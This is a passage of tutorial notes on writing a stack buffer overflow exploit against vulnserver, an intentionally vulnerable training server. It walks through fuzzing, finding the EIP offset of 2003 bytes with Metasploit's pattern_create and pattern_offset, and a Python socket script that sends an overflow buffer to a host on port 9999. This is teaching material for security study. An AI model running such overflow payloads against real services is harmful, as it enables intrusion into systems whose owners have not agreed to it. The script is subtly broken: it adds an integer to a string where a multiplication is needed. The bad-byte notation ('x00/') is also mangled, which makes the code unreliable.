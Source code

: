 # Fuzzing
We can use python to fuzz this server as well and hopefully find the EIP location. During spiking we try to hit as many commands and functions as possible to discover a vulnerability, during fuzzing we have identified a possible vulnerability and try to glean information about what is happening in memory. If vulnserver crashes with ImmunityDebugger (IDB) attached then just restart both processes rather than trying to reattach to avoid errors.
During spiking when looking at the registers we saw that there are characters that are added before the command in order for the program to understand it.
```
TRUN /.:/
```
We are trying to narrow down, where it is breaking and at what specific byte size during fuzzing.
We can see that the fuzzing crashes at 2100 bytes. We must find where the EIP is.

# Finding The Offset
Within the Metasploit framework we can use the 'pattern create' tool
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <buffer_size>
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```
Buffer size above should be approximately the byte size we discovered during fuzzing.
If we go further and launch the offset_fuzz.py script with a pattern created of size 2500 we see that we have crossed too far past the ESP into the EBP and even the EIP. However we do see a value in the EIP of 386F4337.
We are interested in this value, so lets see how to use it.
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <buffer_size> -q <eip_value>
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337

[*] Exact match at offset 2003
```
This tells us that at 2003 bytes we can control the EIP, we will try to overwrite it with very specific bytes to see if they show up in memory.
The EIP itself is 4 bytes long.
```
#!/usr/bin/python
import sys
import socket
# Python 2 version of this script

shellcode = "A" + 2003 + "B" * 4
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.10', 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error while connecting to server")
    sys.exit()
```
In the above snipped we send 2003 'A's because this is where the EIP starts. We don't want to overwrite the EIP with 'A's so we should se "42424242" in the EIP. We must then find bad the bad characters before we smuggle in the shellcode.
# Finding Bad Characters
We must find bad characters in relation to shellcode, during generation we must know which characters are good or bad.
We do this by running all the hex code characters through our program and seeing if any of them act up. By default the null byte 'x00/' acts up.
```
https://github.com/cytopia/badchars
pip install badchars
```